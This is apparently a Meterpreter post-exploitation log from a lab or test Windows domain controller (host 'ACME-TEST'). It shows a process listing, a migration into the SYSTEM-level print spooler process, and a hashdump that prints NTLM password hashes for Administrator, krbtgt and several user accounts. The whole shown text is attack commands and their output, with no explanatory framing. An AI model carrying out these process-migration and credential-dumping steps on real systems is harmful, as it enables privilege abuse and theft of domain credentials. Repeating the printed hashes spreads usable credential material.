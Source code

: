 ```console
 1400  756   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1420  756   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1712  756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2100  692   LogonUI.exe                                x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 2212  692   fontdrvhost.exe                            x64   1        Font Driver Host\UMFD-1       C:\Windows\System32\fontdrvhost.exe
 2220  676   fontdrvhost.exe                            x64   0        Font Driver Host\UMFD-0       C:\Windows\System32\fontdrvhost.exe
 2256  756   spoolsv.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 2312  756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2332  756   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2392  756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2416  756   amazon-ssm-agent.exe                       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 2444  756   LiteAgent.exe                              x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 2476  756   ismserv.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\ismserv.exe
 2492  756   dfsrs.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dfsrs.exe
 2504  756   Microsoft.ActiveDirectory.WebServices.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe
 2516  756   dns.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dns.exe
 2532  756   dfssvc.exe                                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dfssvc.exe
 2688  2412  powershell.exe                             x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 2948  756   vds.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2972  2416  ssm-agent-worker.exe                       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\ssm-agent-worker.exe
 2980  2972  conhost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3708  756   msdtc.exe                                  x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 4060  2688  conhost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe

meterpreter > getpid
Current pid: 2688
meterpreter > migrate 2256
[*] Migrating from 2688 to 2256...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:cad1611a69ea0142dfd6ee121338244a:::
meterpreter >
```